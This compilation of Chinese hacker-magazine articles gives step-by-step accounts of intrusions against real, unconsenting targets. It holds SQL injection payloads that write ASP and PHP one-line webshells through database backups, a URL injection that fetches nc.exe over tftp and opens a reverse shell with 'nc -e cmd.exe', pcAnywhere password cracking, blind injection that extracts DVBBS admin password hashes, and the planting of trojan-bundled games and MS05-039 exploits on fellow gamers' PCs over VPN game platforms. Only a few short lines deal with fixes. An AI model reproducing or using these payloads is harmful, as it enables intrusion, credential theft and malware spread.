搞个 webshell 也吃了不少苦头，里面网站的内容比较单调，而且被不明人士早就光顾过。好不容易才在 xx.103.160.48 的机器用动网默认数据库搞了个 webshell，当然是直接到 `C:/Documents and Settings/All Users/Application Data/Symantec/pcAnywhere/` 下面把 cif 文件下载来。有 2 个配置文件，我下载了一个 pcAnywhere 密码查看器，轻轻点击了下破解，可爱的密码就这样出现在了我面前，如图4。哈哈！还等什么？当然是登录了，但似乎发现个问题，计算机处于锁定状态，郁闷！

先来试试社会工程学，破解出了 2 个 cif 的密码，之后又组合了一下，开始尝试登录。尝试操作是很痛苦的事情，看着错误提示一次次蹦出来，心里很是不爽！几十个密码下来就很累了，看来此路似乎不通。还是回到 webshell 想个法子提权吧！Win2000 的系统，先查看组件，还不错，组件能卸的都给卸了，比如 wscript！执行 cmd，返回没有权限。不行，提权怎么说也得先弄个 cmdshell，想传个 cmd 上去，可是也不行。

想了一会儿，不是还有那个 Jet 引擎溢出吗？虽然权限是低了点，但至少也是个 cmdshell 啊，赶紧去下载了个回来，很顺利地生成了 mdb 文件，然后在本地 `nc -v -l -p1234` 监听 1234 端口；再回到 webshell 数据库操作那里，输入路径，连接！进度条开始走了，视线锁定在了本地监听的 nc，几秒过去了，总算看到有信息过来了，哈哈！正合我意。正准备输命令时，奇怪了，怎么断开了（图5）？回到 webshell 看了下，晕哦！间接性毁灭！明显服务器是打补丁了，这点希望都给我破灭了，提权看来也别想了啊。


图4


图5

有必要换个思路了，对方的内网不是有好多机器开了 5631 吗？哈哈！思路来了！这回社会工程学多少能派上用场了，拿那 2 个密码开始尝试登录其他机器的 pcAnywhere。说了自己很幸运的嘛，20 多台机器，居然登录成功了差不多一半！不过还有个坏消息，就是机器都是锁定的！得有 Windows 登录密码才行啊。现在的方法也就只能继续社会工程学猜密码了，唯一的资料就是那 2 个 cif 文件了。

连接 xx.103.160.12，发送 Ctrl+Alt+Del，很快熟悉的登录界面再次出现眼前。开始猜密码了（图6）……一口气猜了 20 多个，居然还是登录失败。我又换了一台电脑，3 台服务器猜完了，累了！有点快失望了！想放松一下，找个 mm 聊聊天，却发现 QQ 上一个 mm 也不在线？还是继续吧！那就连 xx.103.160.21！


图6

这次换个新鲜点的密码，我看了一下 cif 密码，其中有一个是 cfs1234a，这密码好，多少有点规律啊，“1234”，哈哈！好好记？那我就来 cfs1234abcd，输入密码登录！奇怪？居然没出来密码错误的提示？哇，终于成功了，兴奋啊。一个管理员密码就这样叫我给破解了出来……这次看到这类界面倍感亲切，桌面好整洁啊，如图7。

乖乖，我和那个在线的管理员密码都出来了……去看一下还有没有其他的 pc 管理员？很快打开了 `C:/Documents and Settings/All Users/Application Data/Symantec/pcAnywhere/` 这个目录……


不小心看看有个 pcAnywhere 的客户端，里面不会有目标站点的 pc 连接吧？那样岂不爽哉！赶紧打开……`query user` 看看，哇，居然有个管理员在线啊？查看他的密码那是必然的了……输入命令 `mt -findpass`，如图8。


衡量一点。C 盘不到一分钟就浏览完了……双击一下盘符，进来了，好熟悉的名字啊，FlashFXP……居然“验证失败已到期，请输入注册码”……很快从 Google 中就找到了……如图10，成功连接到了网站，如图11……


接下来的事情还没有完呢，运用 pcAnywhere 密码和 Windows 密码的关联性，再加上 FTP 密码，我们登录了内网的大部分关键主机……社会工程学也是一种能力……这才是黑客的精神所在。

（文章中涉及到的工具：domain 旁注工具、啊D注入工具、Symantec pcAnywhere Password Crack、Jet 引擎溢出工具、nt、暴风星雨密码查看器，已收录于光盘中）


课间，听到几位同学在讨论校园网中的电子图书馆。什么？图书馆也搬进校园网了，我怎么不知道呢？当然了，管理员没有通知我嘛。那我只好发扬风格，尽一下义务喽！

# 一、黑我次回


登录校园网，点击其中的“电子图书”链接，图书馆的登录窗口如图1所示，需要输入“用户名”和“密码”才能进入。尝试经典登录口令并进行测试后，发现可绕过验证进入系统。

```sql
'or ''=''
```


图1


图2


图3

在图书馆中浏览后发现，用户虽然具有管理员权限，但图书馆内未见上传配置，遂转而检测注入漏洞。对参数分别使用 `and 1=1`、`and 1=2` 等测试，页面回显差异显示该链接存在注入点。

```sql
and 1=1
and 1=2
```

继续测试数据库类型，构造语句并观察返回信息，判断后端与 SQL Server 相关。

```sql
and 1=(select @@version)
```


图4

更换测试方式，尝试函数与关键字过滤，随后使用扩展存储过程探测权限，页面返回 SQL Server 权限错误信息。

```sql
declare @a int--
exec master..xp_cmdshell 'ping 172.18.0.217'
```

- 图书馆采用的是 SQL 数据库；
- 连接此数据库的用户权限是 `db_owner`。


图5

对于 `db_owner` 权限，我前几天做了一下研究。其虽然没有执行 `XP_Cmdshell`、`SP_OACreate`、`XP_ServiceControl`、`SP_AddLogin` 等权限扩展，但在默认情况下，具备执行数据库二进制代码的能力，还可以执行 `XP_DirTree`、`XP_RegRead` 等扩展。

经常被管理员说绝：不知网站所在的服务器是否为 Win2000？输入 URL 地址 `http://172.18.0.4/_vti_bin/`，返回的不是“查无目录”，呵呵，此目录还真的存在，天助我也！

# 迷雾乍现

- 创建表：`create table [jm_tmp](value nvarchar(4000) null,data nvarchar(4000) null)`  
- 用 `XP_RegRead` 读取注册表网站物理目录并写入表。  
- 取出目录字段内容。  
- 备份出一句话木马 ASP。  
- 把木马写入目标网站以控制网站。  

但在第三步返回“无法找到该书，可能已被删除”等信息。作者总结了几种条件分支返回情况（A/B/C/D/E），并分析 `and 1=(select top 1 ...)`、`declare`、`XP_cmdshell` 等语句在不同权限下的结果。

- 在 URL 提交：`...create table [dbo].[jm_tmp]([cmd] [image])`。  
- `declare @a sysname,@s nvarchar(4000)... backup database @a to disk=@s`。  
- `insert into [jm_tmp]...` 写入一句话木马十六进制字符串。  
- 差异备份到 `C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\40\isapi\jm.asp`。  
- `drop table [jm_tmp]` 删除表。  

在执行第四步后，页面底部出现“类型不匹配：'execute'”，说明木马写入成功（若系统盘非 C 盘则需调整路径后重试）。


# 峰回路转

想到 `_vti_bin` 目录在 Win2000 中默认存在，路径通常在 `C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\40\isapi\`。


打开一句话木马客户端，填入 `http://172.18.0.4/_vti_bin/jm.asp` 后成功连接，但页面错误变为写入失败相关信息。

```text
ADODB.Stream 错误 '800a0bbc'
写入文件失败。
/_vti_bin/jm.asp，行 0
```

结论：写入失败主要是权限问题。`jm.asp` 运行时可能是 Guest 权限，SQL 用户可能是 User 权限，而 `_vti_bin` 目录写入最低权限可能要求更高，故导致无法写入。

看来用一句话木马客户端将木马写入此目录内是不通了，但不要紧，可以将木马写入到网站目录中！修改前面的提交字符串，在“dir d:\”后加入“ebookweb\”提交，得到了该目录中的文件信息，其中主目录下有 `index.htm`、`login.asp` 和 `logout.asp`。重新打开图书登录窗口，在其 URL 后加入 `login.asp` 提交，返回的是“用户名或密码错误，请重新登录”，证明此目录就是图书馆的老窝。


经过这一番折腾，终于找到图书馆的物理地址了。下面就用一句话木马客户端进行写入文件，输入完 URL 后，修改代码 `IP.SaveToFile server.mappath('jmup.asp'),2` 为 `IP.SaveToFile 'd:\ebookweb\jmup.asp',2`，由相对地址改为绝对地址，再点“提交”。


通过这个木马，对 Win2000 系统进行了更深层次的渗透。在网站的其他目录内，竟找到了数据库超级用户 SA 的密码。最终的结果，我不仅拿到了图书馆长这个席位，连系统管理员也客串了一把！


> （文章中涉及到的工具 ASCII 转换 `ASCII--zh.exe`、一句话木马连接客户端、SQL 相关代码，已经收录于光盘中）


## 异想天问

- **问：** 我的 QQ 输入不了密码了，呆呆帮我看一下！究竟是怎么了？  
  **答：** 有时候 QQ 登录时不能输入密码，可能是系统中安装了其他公司的“控件”并与 QQ 冲突。可在 IE 的“工具 → Internet 选项 → 设置”中查看并处理相关控件，删除后重启。

- **问：** 我原来安装的是 DirectX 8.1，最近将其升级到 9.0 后声卡不发声，想恢复到 8.1，如何卸载？  
  **答：** 可通过软件来卸载当前版本的 DirectX，再按提示重启系统后重新安装所需版本。

## 一个入侵的战争

新学期又要开始了，不知各位小菜们这入侵的功力又长进了多少呢？前两天从黑客 X 档案的论坛上下载了啊D注入工具 V2.3（黑客 X 档案专版），这东西倒是挺好用的，就来教教各位制作自己的新学期“肉鸡宴”吧！


转到啊D注入工具相关工具 CMD/上传功能，列一下 C 盘的目录，情况不妙，没有回显。使用 wscript.shell 也不行，于是尝试用 SQL 的存储过程探测数据库服务器是否能连到外网。

```text
http://www.xxx.tw/asp/showbook_cart.asp?bookid=04700008';use master;declare @s int;exec sp_oacreate 'wscript.shell',@s out;exec sp_oamethod @s,'run',NULL,'cmd.exe /c ping xxx.xxx.xxx.xxx';--
```


接下来在本机开启 TFTP 服务，在 IE 地址栏中输入语句，通过执行即可使用 TFTP 将 nc.exe 上传到数据库服务器系统目录下。

```text
http://www.eurasian.com.tw/asp/showbook_cart.asp?bookid=04700008';use master;declare @s int;exec sp_oacreate 'wscript.shell',@s out;exec sp_oamethod @s,'run',NULL,'cmd.exe /c tftp -i 20222.65.103.195 get nc.exe';--
```

说明一下，由于已上传了 nc.exe，此处以上传 mt.exe 为演示。成功上传后，准备弹回 SHELL。

```text
http://www.xxx.tw/asp/showbook_cart.asp?bookid=04700008';use master;declare @s int;exec sp_oacreate 'wscript.shell',@s out;exec sp_oamethod @s,'run',NULL,'cmd.exe /c nc.exe -e cmd.exe xxx.xxx.xxx.xxxx 8088';--
```

如图4所示成功弹回 SHELL。使用 `NET VIEW` 查看该局域网内机器，后续可继续控制服务器并处理共享资源。


（文章说明：文中涉及工具与样例文件如啊D注入 V2.3、mt.exe、nc.exe 等已收录于光盘。）

## 从迷魂记留言本获得 webshell

剑心 [B.C.T.]

网络上的留言本很多，有用 ASP 写的，也有用 PHP 写的。我们喜欢找漏洞玩的人当然也不会放过这个好玩的东西了！但是现在的 ASP 留言本功能很简单，数据库也用的是 Access，除了跨站基本上没有什么玩的。但是 PHP 的留言本就不一样了，很多 PHP 留言本采用的是文本文件数据库，并且扩展一般都是服务器能解释的 PHP，而 PHP 本身又提供强大的函数，这就给我们的 webshell 带来了生存之地。

迷魂记留言本就是一款采用 PHP + 文本数据库的留言程序，界面很漂亮（图1），但是分析代码和结构就会发现它的安全性并不像外表那样好。

看看数据库吧！是在设定目录的 `userlist.php` 中，一般路径就是 `data/userlist.php`，打开看看内容如下：`|http://<? eval($_POST[a]);?>|` ……都是直接写的，没有任何过滤！呵呵，如果我们申请的时候向其中写入我们的 PHP 代码不知道会怎么样！看看用户注册的代码部分吧，注册的页面是 `book/index.php?PRO=Register`，代码如下：

```php
if(!$_PRO || !file_exists($rootpath."inc/$_PRO.php"))
    $_PRO="Main";
require($rootpath."inc/$_PRO.php");
```

呵呵，包含 `inc/$_PRO.php` 这个文件哦！我们提交上面的链接之后就会包含 `inc/Register.php`，再去看看 `inc/Register.php` 的代码吧！

```php
if ($ACT=="reg") {
  $check="";
  if(empty($Reg[id]) || strpos($Reg[id],"|")!==false || ... ) {
    $errormsg .= "用户名必须是数字、英文和符号";
    $check=0;
  }

  if (empty($Reg[homeou]) || ($Reg[homepage]!=="http://")) {
    $errormsg .= "主页链接为";
    $check=0;
  }

  $filecontent = $Reg[id]."|".$timestamp."|".$Reg[admin]."|".$_PASS[word]."|"...
  $old = @readfromfile($rootpath."data/userlist.php");
  writetofile($rootpath."data/userlist.php", $filecontent.$old);
}
```


图1


图2

用户的 ID 被过滤了，但是提交的主页链接没有任何过滤！可以写入自己的 PHP 代码！嗯嗯，现在就去获得 webshell 吧！在申请留言本的地方的主页链接里写上 `http://<? eval($_POST[a]);?>`，这就是 PHP 的一句话木马了！其他的随意！填好后提交，等提示成功后我们的 webshell 就在服务器上了，地址就是 `data/userlist.php`。用木马客户端提交一个 `phpinfo();` 访问后，如图2，呵呵，一个可爱的 webshell。

很简单吧！其实修复也很简单！只要把所有提交的变量过滤掉 “<”、“>” 等 PHP 需要的字符就可以了！存在这种漏洞的程序网上有很多，而且在 Windows 下如果是使用 Apache 的话，PHP 默认可是系统权限哦！

# 浅析 DVBBS 7.1（boke.asp）最新所谓漏洞

职业欠钱（赵强政）。

大四最后一个学期了，又要跑招聘会，又要赶毕业设计，还报了个 CCNA 辅导班……这天在网上看到了利用程序，发现该程序是 Perl 编写的，要使用还得安装 Perl 编译器，于是打算分析一下原理，找小 Z 做个工具出来玩。

首先根据公布的补丁和程序作者提示得知，漏洞出现在 boke/Cls_Main.asp 的第 205 行，SQL 语句为：Select [很多东西] from [Dv_Boke_User] U Inner Join [Dv_Boke_Skins] S On U.SkinID = S.S_ID……

```vb
BokeName = ...
Then
Sql = "... where BokeName='" & BokeName & "'"
```

原来只要 BokeName 不为空，就把 SQL 语句后面加上 BokeName 做条件参数。继续搜索 BokeName 来源，发现与 ArchiveLink 参数处理相关。

```vb
ArchiveLink = LCase(Request.ServerVariables("QUERY_STRING"))
If ArchiveLink <> "" Then
  ArchiveLink = Split(ArchiveLink, ".")
  ...
  BokeName = Replace(ArchiveLink(0), "html", "")
End If
```

这里定义了 ArchiveLink，并通过 Request.ServerVariables("QUERY_STRING") 取得数据；再用小数点分割并处理，最终影响 BokeName。访问形如 http://localhost/boke.asp?zyqq.a.b.c.html 时，ArchiveLink 会被解析为多段，第一段可控。


到底出了什么问题呢？把 SQL 语句显示出来看：select ... where BokeName='admin'%20and%20'1'='1'。其中 `%20` 代表空格，导致语法错误。原因在于对 QUERY_STRING 的数据未正确解码为空格，直接进入 SQL。

是否还能注入？答案是肯定的。既然空格和小数点受限，就使用其他分隔方式，例如注释符来替代空格：`select/**/from/**/admin/**/where/**/username='admin'`，同样可被数据库解析。

| UserID | UserName | NickName | BokeName | PassWord | BokeTitle |
|---|---|---|---|---|---|
| 1 | admin | admin | 职业欠钱 | ... | admin的博客 |

由表可见，BokeName 和用户名并不完全一致。管理员用户名可能为 admin，但博客名可另取。打开博客索引后可看到所有博客用户信息，并可从链接参数中定位其 BokeName。


对攻击者而言，博客管理员密码更有价值。可先注册账号登录后台，再查看用户信息，低权限账号也可能看到相关数据；随后继续构造注入语句（文末给出注入起始 URL）。

****.cn/boke.asp?programmer’ and ‘0’=left(PassWord,1)and’’=’.index.htm，这是猜测博客名为 programmer 的用户（“一天到晚游泳的鱼”）的第一位密码是否为 0。然后一位一位地猜完后，组合在一起，到 http://xmd5.org 一类的 MD5 查询网站去查询是否弱口令。

好了，原理清楚了，小 z 的工具也就能做出来了。我们现在到 Yahoo 等搜索引擎去找 DVBBS7.1，或者直接搜索“Power by iBoker”就可以找到好多目标。我们以 http://www.t**deng.com/bbs/boke.asp 为例，经过简单查看，如图3。看来 ayou 这个人很像管理员哦！到论坛上验证一下，果然没错！那么咱们把目标就锁定在他身上了。打开小 z 做的工具，如图4。将目标站的 boke.asp 完整路径写入“地址栏”处，再将对方的 bokename 写进来（也就是访问 boke.asp?xxxx.index.html 里的 xxxx），此处我们填入 ayou。单击“开始”按钮，很快就得到了他密码的 MD5 散列，到 http://xmd5.org 上查询，如图5。


到论坛上使用用户名 ayou 和查出来的密码登录，发现后台用户名和密码也完全一样，于是毫不客气地将一个 ASP 木马改名为 jpg 扩展名上传，如图6。再到后台使用数据库恢复功能得到 shell：把图片地址的相对路径“../UploadFile/2006-3/20063141812455039.jpg”填入“备份数据库路径(相对)”，再填入“目标数据库路径(相对)”，比如“../shell.asp”，单击“恢复数据”按钮，如图7。


提示成功后，我们就可以访问 http://www.t**deng.com/bbs/shell.asp 得到 webshell 了！一般来说，每一个 SQL 漏洞我们都会思考 SQL 版和 Access 版相比较，能否做更多的事以简化我们的入侵步骤或者扩大成果。这个漏洞也是一样的，只可惜由于小数点被屏蔽掉，利用起来需要使用以下形式进行：declare @a varchar(8000) set @a=[SQL 注射语句的十六进制编码] execute(@a)。当然，其中所有的空格都会被替换成“/* */”。


老规矩，找小 z 把工具做出来方便一下，如图8。在工具下方的 MSSQL 栏里，填入目标 boke.asp 的地址，然后写入任何 SQL 注入语句，单击提交按钮后就可以了。在本机搭建一个平台后，测试发现可以读取注册表信息，取到虚拟目录的内容写入个人博客信息里，然后再使用 backup 的方式获得 webshell。语句如下：

```sql
create table regread(a varchar(255),b varchar(255));
insert regread exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CONTROLSET001\Services\W3SVC\Parameters\Virtual Roots','/';
update dv_boke_user set boketitle=(select top 1 b from regread) where bokename='admin';
drop table regread;
```

实验结果如图9。得到了物理路径后，自然就可以差异备份数据库得到一个 shell 了！还是给出语句好了。


```sql
create table aspshell(a int,image);
declare @a sysname; select @a=db_name();
backup database @a to disk='D:\wwwroot\dvbbs7sp1\wwwroot\shell.bak';
insert into aspshell values(0x3C2567661...);
...
backup database @a to disk='D:\wwwroot\dvbbs7sp1\wwwroot\shell.asp' with differential;
drop table aspshell;

update dv_boke_user set BokeTitle=BokeTitle+'<script>alert("我靠! 我想干啥! ")</script>' where bokename='admin';
```

这样就得到一个包含一句话木马的 shell.asp……到了实战时又遇到路径问题，于是发现了另一个利用方法——跨站。

这段内容介绍通过博客标题注入跨站代码，诱导管理员操作后台，从而达到添加管理权限等目的，并说明是思路分享。


（文中涉及到的工具 dv_boke.exe、dv_boke-new.exe 已经收录于光盘中）

# 解救平台友人恨

### —— 浩方、QQ游戏大厅、VNN漏洞大曝光

对于传奇、天堂等大型网游并不太感兴趣，更常在浩方或 QQ 游戏大厅玩斗地主等小游戏；一次经历引发了后续“报复”与安全研究。

作者通过邮件木马等方式尝试获取对方信息，并讨论网络攻击成功概率与等待过程中的发现。


## 浩方平台的恶意入侵

游戏中遭遇作弊与辱骂后，开始计划反制；目标是从公开资料中寻找可用线索。

## 1. 没有希望的木马攻击

由于缺少 IP、邮箱、QQ 等直接信息，只能从注册资料与在线玩家列表入手，逐步排查并尝试定位。


## 2. 柳暗花明再攻击

在继续操作时意外得到一个内网 IP 线索（如“10.12.1.11”），从而认为找到了突破口并继续攻击尝试。

个词：VPN、虚拟局域网……

> **小提示：** 网上最大的游戏平台“浩方游戏平台”之所以可以实现在网上玩魔兽、星际之类局域网游戏，其实是通过 VPN（虚拟网络技术）建立了一个虚拟的局域网。所有链接浩方的人，都取得一个 C 类内网地址，不同的房间是不同的 C 地址；因此每个浩方游戏房间最多只能容纳 255 人，处于同一房间中的游戏者都可以通过网络邻居访问到。

可以看到那两人 IP 地址分别为“10.12.1.11”、“10.12.1.25”，很显然，这两人的 IP 都是同一网段的内网 IP 地址，难道说他们是真正处于同一局域网中的吗？不是！只要看看我自己的 IP 地址就明白了，我的是“10.12.1.39”！再看其他用户的 IP 地址，发现全都处于“10.12.1.*”这个地址段中；也就是说整个游戏房间中的游戏者经过浩方平台的处理，都位于了同一个虚拟的局域网中。网吧中的攻击是典型的局域网攻击形式，比起在 Internet 上攻击简单多了，现在我所要教训的那两人与我处在同一局域网内，攻击他们不也是很容易的事吗？

虚拟局域网中的电脑是可以互相访问的，即使电脑实际网络是处于一个独立的内网中也可以访问到。就选择“10.12.1.11”作为攻击目标吧！打开“网上邻居”，点击“添加一个网上邻居”按钮，打开添加向导对话框。点击下一步按钮，选择“选择另一网络位置”（图4）；继续点击下一步，在“Internet 或网络地址”中输入“\\10.12.1.11”（图5）。点击下一步时，会弹出错误提示框，提示“需要一个共享才能发布”。再要我们指定共享资源名，不用管它，直接点确定按钮。然后点击对话框中的“浏览”按钮，在打开的浏览对话框中可以看到已经多出了一个新的工作组名，在其下有一个网络邻居“10.12.1.11”，点击后即可展开该网络邻居的共享资源（图6）。选择共享资源“zsy”，并点击确定，就可以将该 IP 对应主机添加到网上邻居中了。

再次打开网上邻居，可以看到其中已经多出了一个网上共享资源项目“zsy 在 10.12.1.11 上”（图7）。双击后即可连接到该 IP 对应主机，并打开共享磁盘（图8）。通过网上邻居就可以直接操作远程主机上的共享文件了，最简单的入侵攻击就是直接删除里面的文件！不过这也太恶劣了，上传个木马得了。


## 3. 共享漏洞入侵“网络邻居”

既然这两位与我处在同一局域网中，那么可否通过网上邻居进行访问呢？首先来 Ping 一下这些虚拟的网络邻居吧！选了其中一人的 IP 地址“10.12.1.11”，打开命令提示符窗口，输入命令 `ping 10.12.1.11`，执行命令后可以看到有了回应（图3），表示此 IP 地址可以连接，而且该台主机没有安装防火墙。也就是说，这些位于同一

## 4. 文件捆绑上传木马

由于网速不太好，直接在网上邻居里操作远程主机上的文件反应速度非常慢，因此可以将远程主机上的共享文件夹映射为本地的一个磁盘，在命令行下进行操作。点击资源管理器菜单“工具”→“映射网络驱动器”，在打开的映射对话框中选择本地未使用的一个驱动器号，这里是“Z:”，“文件夹”处就是远程主机共享资源“\\10.12.1.11\zsy”（图9）。点击确定后，在“我的电脑”可以看到多出了一个 Z 盘，这就是远程主机上的共享文件夹了。

```bash
ping 10.12.1.11
DIR
copy 是男人*.exe C:\
```

进入命令提示符窗口，转到 Z 盘，输入“DIR”命令看看远程主机上有些什么文件（图10）。在命令行下操作速度就快多了，在列出的文件中看到了几个小游戏：“是男人就飞一万米.swf”、“是男人就过难度5.exe”、“是男人就上120层.exe”……可以推测，看来这人不仅喜欢玩这几个是男人的游戏，而且还把这些游戏共享给自己真实所在局域网中的其他用户。那就在游戏里面捆绑几个木马，让他玩去吧！首先将几个游戏下载到本地，方法很简单，直接执行命令 `copy 是男人*.exe C:\`，就将游戏复制到本地 C 盘中了。


图10

“CIA”生成了一个木马服务端，打开“EXE 文件捆绑机”，将木马与这几个游戏分别捆绑在了一起（图11）。然后上传到远程主机共享文件夹中，命令是 `copy C:\是男人.exe Z:\...`，上传速度比较快，捆绑了木马的游戏就覆盖了远程主机上的文件。把这批装有木马的游戏，或者他所下载的游戏运行后，就会自动连接到我的 CIA 客户端被我远程控制了。


图11

## 5. 主动出击，内网也玩反向溢出

木马上传成功后，我觉得还是要继续主动攻击比较好，于是决定对这台主机玩一下最新的 WMF 溢出。本来我是铁通的宽带网络，铁通的网络真的很烦，拨号以后只能得到一个内网的 IP 地址，对于我这样爱好黑客技术的小菜来说，好多技术都用不上，比如说反向溢出之类的。不过现在不用担心了，通过游戏平台，已经有这么多的“网络邻居”供我练技术了！说干就干，立刻拿出超强扫描器 X-Scan 扫描一下这台主机，扫描结果显示这是一台 WindowsXP 的主机，并且开放了 135、445 等端口。于是立刻想到几个漏洞，MS-06001？这是一个图片溢出，不适合远程溢出；MS-05051？主要针...


图12

对 Windows2000 主机远程溢出，也不能用……姑且试试 MS-05039 漏洞吧！运行“MS05-039 漏洞器”扫描一下远程主机，很快就扫描显示出主机存在漏洞（图12）。下载了小榕的“MS05-039 漏洞溢出三合一工具包”，在工具包中包括了三个溢出工具，有小榕改写 Ms05039、反连的 Ms05039、Ms05039 三个不同的版本。使用反向溢出工具，首先在本地打开一个 cmd 命令提示窗口，在其中运行 nc 监听本地的某个端口，在命令提示窗口中输入如下命令 `nc -l -p 8888`，此处监听的是本地 8888 号端口。在命令提示窗口下进入“小榕改写的版本 Ms05039”文件夹，执行命令 `ms05039.exe 10.12.1.11 10.12.1.39 8888 1`，马上远程主机就自动反弹连接到本地监听的端口上了（图13）。


图13

## 6. 入侵整个“虚拟局域网”

很容易地就拿到了这台主机的控制权，本想教训一下那个人的，但是现在我却有了新的打算，准备入侵整个“虚拟局域网”。看看此时当前游戏房间里面共有 200 多位用户在线，也就是说在自己所处的这个虚拟局域网中共有 200 多台网上邻居！这么多的电脑中，我相信一定有许多电脑都有着严重的漏洞！当然大部分的电脑上都安装了防火墙，但是许多处于内网中的电脑都没有安装防火墙，特别是一些公司或学校宿舍局域网，仅仅是在网关上安装防火墙阻挡外网的攻击，这是阻止不了来自于虚拟局域网中的攻击的。

运行 X-Scan，点击工具栏上的“设置”按钮，打开“设置”对话框，选择“基本设置”选项，输入要扫描的 IP 地址段 10.12.1.1-10.12.1.255，再点击“高级设置”项，选择“跳过没有检测到开放端口的主机”（图14）。


图14


图15

漫长的扫描结束后，可以看到扫描到了许多存活的内网主机。从扫描结果中发现有几台主机不仅开放了 135、139、445 端口，还共享了主机上的文件，其中一些还存在着弱口令（图15）……最后的结果是，我成功地用远程溢出在几分钟之内获得了十余台肉鸡。

# 二、顺藤摸瓜，入侵其它平台

在我进入浩方对战平台的其它游戏房间后，又用同样的方法入侵了一些存在漏洞的主机。进而我又想到了网上有如此多的对战平台，是不是也存在着同样的漏洞呢？

QQ 用户众多，玩 QQ 游戏的更多。当我进入 QQ 游戏大厅后却发现与浩方不太一样，在游戏房间中并没有每位游戏者的 IP 地址显示。在寻找一番后，发现 QQ 游戏大厅里还有个 QQ 游戏对战平台，用来对战 CS、星际之类的大型游戏。进入对战平台，在这里就可以看到虚拟局域网中其他的用户了（图16），这些“网上邻居”的 IP 地址形式为“192.168.1.*”，得到内网 IP 地址就好办了，方法还是一样的，按入侵局域网的方法就可以攻击原本属于 Internet 上的主机了。


图16

对 QQ 游戏大厅测试之后，我又对“联众”、“中国游戏在线”、“边锋游戏大厅”、“新浪 iGame 游戏大厅”等进行了测试，结果发现这些小休闲游戏平台都没有提供虚拟局域网的 IP 地址。于是想通过嗅探的方式，查询出虚拟局域网的 IP，不过偏偏嗅探时老是出现没有反应的情况，大概是系统有点问题，因此就没有测试，留给有兴趣的朋友们想办法如何找出这些游戏平台建立的虚拟局域网 IP 地址吧！再提示一个简单的方法，登录平台后，直接用 X-Scan 扫描 10.12.1.* 或 192.168.1.* 之类的网段，检测一下有没有大量存活主机就可以了。

# 三、游戏平台入侵的原理

在前面，我提到了浩方之类的游戏平台其原理是建立在 VPN 技术上的。VPN 是“Virtual Private Network”的缩写，通常被称为“虚拟专网”。顾名思义，它是一种将公用的 Internet 网络虚拟为一个专用私有网络的技术，就如同在茫茫的 Internet 广域网中为用户拉出了一条专线（隧道）。隧道技术是 VPN 的核心，隧道是基于网络协议在两点或两端建立的通信，隧道由隧道开通器和隧道终端器建立。在传统的网络技术中，隧道开通器和隧道终端器设备需要花费一定昂贵的资金，不过随着网络技术的发展，这一切都可以通过软件来实现，从而使 VPN 的技术得到了更为广泛的应用。

利用 VPN 技术，企业用户可将处在异地的客户连接入企业的内部局域网中，而普通的用户则可利用 VPN 实现 Internet 上的虚拟局域网，实现内网共享、下载加速、视频游戏等。简而言之，各种游戏平台为 Internet 上的游戏玩家建立了一个虚拟的局域网，让玩家们处于同一网络中，以便能够使用一些特殊的网络协议互相连接访问。当退出游戏平台后，玩家们也相应地从虚拟的局域网中退出。虽说这是一个虚拟的局域网，但是却能实现真实局域网的各种功能，当然也就使得我们的入侵能够得以完成。

# 四、VPN 大入侵——VNN/eMule/BitComet

当然，用户专门建立的 VPN 网络是比较难以入侵的，因为 VPN 一个很重要的应用就是开辟专线连接保障网络安全！不过网上却有许多利用 VPN 的技术应用，而这背后的安全问题也往往被大家所忽视。

## 1. VNN 的入侵测试

提起 VNN 这个国产的 VPN 软件，许多游戏玩家都一定知道。VNN 将 VPN 技术在个人用户端的应用发挥到了极致，让普通游戏玩家也能够在 Internet 上玩魔兽、星际之类的局域网游戏。同样的，这背后也有许多危险，下面是我对 VNN 用户安全性的测试。

登录 VNN 以后，所有的 VNN 用户都会自动进入一个虚拟局域网，但是无法直接得知其他 VNN 用户的 IP 地址。于是我手动添加 VNN 用户到好友列表中，在好友列表中就可以看到 VNN 用户的 IP 地址信息（图17）。


图17

图中好友的 IP 地址是“10.140.214.144”，所以我猜测其它 VNN 用户的 IP 地址也是在“10.140.214.*”IP 段中的。用 X-Scan 扫描这个 IP 段，果然发现了许多存活主机！还是老办法，也看看这台主机上是不是有共享漏洞存在。直接在地址栏里面输入“\\10.140.214.144”，弹出了一个用户登录对话框（图18），不管它，密码处保留为空，直接确定后就连接上了远程主机，查看到了共享资源……再用 X-Scan 扫描一下子，结果差点让我晕倒（图19）！


图18


图19

不过让我奇怪的是，我通过 VNN 服务器获得的 IP 地址竟然是“10.140.231.185”（从 VNN 窗口的标题栏上可以看到自己的 IP），也许所有 VNN 用户并不是都在一个 IP 段中。看来还有一个最简单的方法，直接扫描自己 IP 地址段中的存活主机，也可以找到许多漏洞主机。

## 2. eMule/BitComet 也暴露 VPN 入侵漏洞

由于 VNN 的强大，许多内网用户用它来提速网络传输、P2P 下载等。尤其是在网上许多 BT 下载的技巧文章中，都提到了如何利用 VNN 使内网用户能够互相连接，同时，有一些流行的 P2P 下载软件也加入了 VNN 的内核，比如电驴 eMule（图20）、BitComet 等。


图20

例如在使用 BitComet 0.56 及以后的版本进行下载时，从“用户列表”中可以看到一些“发起方”为“内网互联”的用户，这些用户就此通过 VNN 实现内网互联的下载了（图21）。


图21

也就是说，安装了 eMule 和 BitComet 的用户，很可能不经意间（因为获得的内网 IP 地址无法确定）就成为了其它内网用户的攻击目标。

# 五、VPN 网络安全

从上面的大入侵过程，可以看出只利用一些简单的漏洞，例如早已快绝迹的共享漏洞。为什么这么古老的漏洞在今天居然还可以成功地利用呢？这都是缘于 VPN 虚拟局域网的功劳！

## 1. VPN 入侵，防火墙之痛

从网络环境和防火墙的角度看，使用 VPN/VNN 的网络用户可以分为四类：有公网 IP 未安装防火墙、有公网 IP 安装了防火墙、处于内网未安装防火墙及处于内网安装了防火墙。其中有公网 IP 未安装防火墙的用户比较少，而有公网 IP 并安装了防火墙的用户为什么也会遭受共享漏洞之类的攻击呢？这就不得不谈一下防火墙与 VPN 的关系了。


图22

处于公网环境的用户，有时也会共享一下自己硬盘上的某些文件夹（图22），由于安装了防火墙的关系，往往不会注意设置共享文件夹访问密码。因为防火墙在默认设置时，会阻止来自 Internet 上的一些非法网络连接，有效保障系统安全。但是当用户通过上述游戏平台和 VNN 技术，接入一个虚拟的局域网时，那些本来由 Internet 上发起的入侵连接就变成合法内网连接了，而防火墙在此时却是形同虚设的！


图23

